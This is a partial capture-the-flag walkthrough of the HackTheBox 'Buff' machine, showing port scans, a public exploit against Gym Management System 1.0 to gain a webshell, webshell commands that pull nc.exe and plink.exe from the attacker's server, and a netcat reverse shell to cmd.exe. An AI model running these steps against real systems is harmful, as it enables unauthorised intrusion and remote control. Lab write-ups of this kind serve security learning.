 ```yaml
---
title: "HackTheBox — Buff"
date: 2020-10-28 01:30:00 +0530
categories: [HackTheBox,Windows Machines]
tags: [exploit-db]
image: /assets/img/Posts/Buff.png
---
```


> Buff windows machine by HackTheBox.com partial guide.

## Recon

Port scan:

``` shell

$ sudo masscan -e tun0 -p0-65535 --max-rate 500 10.10.10.198 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-10-28 03:05:03 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 8080/tcp on 10.10.10.198                                  
Discovered open port 7680/tcp on 10.10.10.198 

```

Nmap over the ports found open:

``` shell
$ nmap -sC -sV -Pn -p8080,7680 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 11:10 AWST
Nmap scan report for 10.10.10.198
Host is up (0.26s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.61 seconds

```


## Gym Management System

Locate exploit on `exploit-db.com` for GMS v 1.0. Download python script and execute as per instructions.

``` shell
python kamehameha.py http://buff:8080/

            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                                                                                                          
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 


C:\xampp\htdocs\gym\upload> dir
�PNG
▒
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

28/10/2020  04:25    <DIR>          .
28/10/2020  04:25    <DIR>          ..
28/10/2020  04:25                53 kamehameha.php
               1 File(s)             53 bytes
               2 Dir(s)   9,836,687,360 bytes free


```

Ok now we need to upload some files for reverse TCP shell.


``` shell

sudo python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...

```

Lets upload some tools and enumerate

``` shell

http://buff:8080/upload/kamehameha.php?telepathy=whoami
http://buff:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.26:80/nc.exe
http://buff:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.26:80/plink.exe

```

Files uploaded:

``` shell

$ sudo python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.198 - - [28/Oct/2020 12:26:26] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.198 - - [28/Oct/2020 12:26:39] "GET /plink.exe HTTP/1.1" 200 -

```

Make a listener to catch the shell `nc -lvvnp 1337`

Then we want to make the shell `buff:8080/upload/kamehameha.php?telepathy=nc.exe -e cmd.exe 10.10.14.26 1337`

And bingo:

``` shell

# nc -lvvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.198] 49776
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun

```








